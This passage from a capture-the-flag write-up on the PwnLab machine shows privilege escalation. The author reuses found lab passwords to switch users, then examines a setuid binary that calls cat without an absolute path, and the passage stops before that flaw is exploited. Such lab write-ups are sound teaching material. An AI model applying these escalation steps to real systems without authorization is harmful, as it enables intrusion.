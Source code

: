 
## Privilege Escalation
### Password Reuse

We can use the passwords found previously to access as user kent, but I didn't find anything.

```console
www-data@pwnlab:/$ su - kent
su - kent
Password: JWzXuBJJNy

kent@pwnlab:~$ ls -la
ls -la
total 32
drwxr-x--- 4 kent kent 4096 Dec 25 11:42 .
drwxr-xr-x 6 root root 4096 Mar 17  2016 ..
-rw-r--r-- 1 kent kent  220 Mar 17  2016 .bash_logout
-rw-r--r-- 1 kent kent 3515 Mar 17  2016 .bashrc
drwx------ 2 kent kent 4096 Dec 25 10:47 .gnupg
-rw-r--r-- 1 kent kent  675 Mar 17  2016 .profile
drwx------ 2 kent kent 4096 Dec 25 10:39 .ssh
```

Then I switched to the user kane.

```console
kent@pwnlab:~$ su - kane
su - kane
Password: iSv5Ym2GRo

kane@pwnlab:~$ ls
ls
msgmike
```

In kane's home directory there is an executable file, this executes the cat command without the absolute path.

```console
kane@pwnlab:~$ file msgmike
file msgmike
msgmike: setuid, setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=d7e0b21f33b2134bd17467c3bb9be37deb88b365, not stripped

kane@pwnlab:~$ ./msgmike
./msgmike
cat: /home/mike/msg.txt: No such file or directory

kane@pwnlab:~$ strings msgmike | grep cat
strings msgmike | grep cat
cat /home/mike/msg.txt
```
